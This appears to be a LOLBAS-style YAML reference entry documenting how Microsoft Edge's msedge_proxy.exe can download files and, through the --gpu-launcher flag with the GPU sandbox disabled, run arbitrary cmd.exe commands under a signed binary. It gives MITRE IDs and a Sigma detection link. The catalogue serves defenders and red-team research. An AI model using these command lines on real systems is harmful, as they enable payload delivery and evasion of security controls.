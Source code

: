 ```yaml
---
Name: msedge_proxy.exe
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft\Edge\Application\msedge_proxy.exe
Description: Microsoft Edge Browser
Author: 'Mert Daş'
Created: 2023-08-18
Commands:
  - Command: "C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge_proxy.exe http://example.com/test.zip"
    Description: msedge_proxy will download malicious file.
    Usecase: Download file from the internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
  - Command: "C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge_proxy.exe --disable-gpu-sandbox --gpu-launcher=\"C:\\\\Windows\\\\System32\\\\cmd.exe /c curl ipinfo.io/json --output %USERPROFILE%\\\\Desktop\\\\test.json &&\""
    Description: Edge will silently download the file.
    Usecase: Download file from the internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
  - Command: "C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge_proxy.exe --disable-gpu-sandbox --gpu-launcher=\"C:\\\\Windows\\\\System32\\\\cmd.exe /c ping google.com &&\""
    Description: msedge_proxy.exe will execute file in the background
    Usecase: Executes a process under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1218.015
    OperatingSystem: Windows 10, Windows 11
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/e1a713d264ac072bb76b5c4e5f41315a015d3f41/rules/windows/process_creation/proc_creation_win_susp_electron_execution_proxy.yml
Acknowledgement:
  - Person: Mert Daş
    Handle: '@merterpreter'
---
```

